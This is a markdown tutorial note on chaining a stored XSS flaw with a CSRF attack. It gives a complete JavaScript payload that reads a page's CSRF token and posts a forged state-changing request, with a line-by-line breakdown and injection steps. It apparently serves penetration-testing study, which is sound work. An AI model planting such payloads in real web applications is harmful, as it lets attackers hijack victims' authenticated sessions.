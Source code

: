 # XSS & CSRF Chaining

Chaining vulnerabilities can be a powerful technique in cybersecurity, particularly when bypassing protections like CSRF (Cross-Site Request Forgery). This note outlines a generic approach to exploit a stored XSS (Cross-Site Scripting) vulnerability to perform a CSRF attack, applicable to various web applications.

***

#### 🔍 Overview of the Technique

* **Objective**: Leverage a stored XSS vulnerability to execute a CSRF attack, even when same-origin policies are in place.
* **Key Concepts**:
  * **Stored XSS**: A vulnerability that allows an attacker to inject malicious scripts into a web application, which are then stored and executed in the context of other users.
  * **CSRF**: An attack that tricks a user into executing unwanted actions on a web application in which they are authenticated.

***

#### 🛠️ Setting Up the Attack

1. **Identify Vulnerabilities**:
   * Look for a stored XSS vulnerability in user input fields (e.g., profile fields, comments).
   * Ensure the application has CSRF protections in place, such as tokens.
2. **Craft the JavaScript Payload**:
   * Create a JavaScript payload that will be executed when the victim accesses the compromised page. The payload should:
     * Make an initial request to retrieve the CSRF token.
     * Use the token to perform a state-changing action (e.g., changing visibility settings).

***

#### 💻 Crafting the JavaScript Payload

To execute the CSRF attack, we need to create a JavaScript payload to place in the **Country** field of the target profile. Here’s the payload:

```javascript
javascriptCopy Code<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

**Breakdown of the Payload**

* **Script Tags**: The entire script is wrapped in `<script>` tags to ensure it executes as JavaScript.
*   **Creating XMLHttpRequest**:

    ```javascript
    var req = new XMLHttpRequest();
    ```

    This initializes a new XMLHttpRequest object for sending HTTP requests.
*   **Handling Response**:

    ```javascript
    req.onload = handleResponse;
    ```

    This sets up an event handler that will execute once the request is complete.
*   **Sending the Initial Request**:

    ```javascript
    req.open('get','/app/change-visibility',true);
    req.send();
    ```

    This sends a GET request to retrieve the CSRF token.
*   **Extracting the CSRF Token**:

    ```javascript
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    ```

    This line captures the CSRF token from the response.
*   **Constructing the Change Request**:

    ```javascript
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
    ```

    This sends a POST request to change the visibility, including the CSRF token and action.

***

#### 🚀 Executing the Attack

1. **Inject the Payload**: Place the crafted JavaScript into the vulnerable input field (e.g., a profile field).
2. **Trigger the Payload**: The next time a victim accesses the page containing the injected script, it will execute and perform the CSRF attack.\
